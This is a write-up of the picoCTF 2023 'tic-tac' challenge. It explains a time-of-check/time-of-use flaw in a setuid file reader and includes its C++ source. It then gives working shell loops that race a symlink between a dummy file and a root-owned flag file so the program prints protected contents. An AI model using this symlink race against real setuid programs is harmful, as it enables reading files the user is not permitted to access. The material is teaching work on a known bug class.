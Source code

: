 # Binary Exploitation / tic-tac

This is a write-up of my solution to these challenges from the [2023 picoCTF](README.md):

- Binary Exploitation / [tic-tac](https://play.picoctf.org/practice/challenge/380) (200 Points)

# tic-tac (200)
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

On launching the challenge instance, we get `ssh`-connection details.
In the home-folder of our user `ctf-player`, we find the `txtreader` executable,
which is owned by `root` and has the [sticky bit](https://en.wikipedia.org/wiki/Sticky_bit) set:
```
$ ls -la
[...]
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
```

We can therefore execute it as `root` and it will print our own file `src.cpp` like `cat` would.
This does not work with `flag.txt` however,
since the binary seems to check the owner rights of files before it prints them:
```
$ ./txtreader src.cpp 
#include <iostream>
#include <fstream>
[...]

$ ./txtreader flag.txt 
Error: you don't own this file
```

The file `src.cpp` actually contains the source code of `txtreader`,
allowing us to look closer at how this check is performed:

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

A big hint to the solution is one of the challenges tags: `toctou`
This stands for [time of check / time of use](https://de.wikipedia.org/wiki/Time-of-Check-to-Time-of-Use-Problem),
a common problem, where the execution of some code depends on a check.
When there is a gap in time between the check and the dependent code,
another process could change the check condition in exactly this moment.

In the code above, the ownership of the file is checked before it is opened for reading.
If we manage to swap the file between these two operations,
the check might be performed on a different file that the one being read.
For this I create a dummy file that I own and a symbolic link to this file called `flag`:

```bash
echo "dummy file content" > dummy.txt
ln -s dummy.txt flag
```

I can now call the `txtreader` with this link and it will print my file:

```bash
$ ./txtreader flag
dummy file content
```

With a `while`-loop, I can change this link back and forth between `dummy.txt` and `flag.txt` as fast as possible.
I put this process in the background with `&`, so it keeps running:
```
$ while true; do ln -fs flag.txt flag; ln -fs dummy.txt flag; done &
[1] 61
```

Now all that's left to do is to try reading `flag` as often as possible
and filtering away all outputs that are not the flag:
```
$ while true; do ./txtreader flag; done 2>&1 | grep "picoCTF"
picoCTF{ToctoU_!s_3a5y_XXXXXXXX}
```
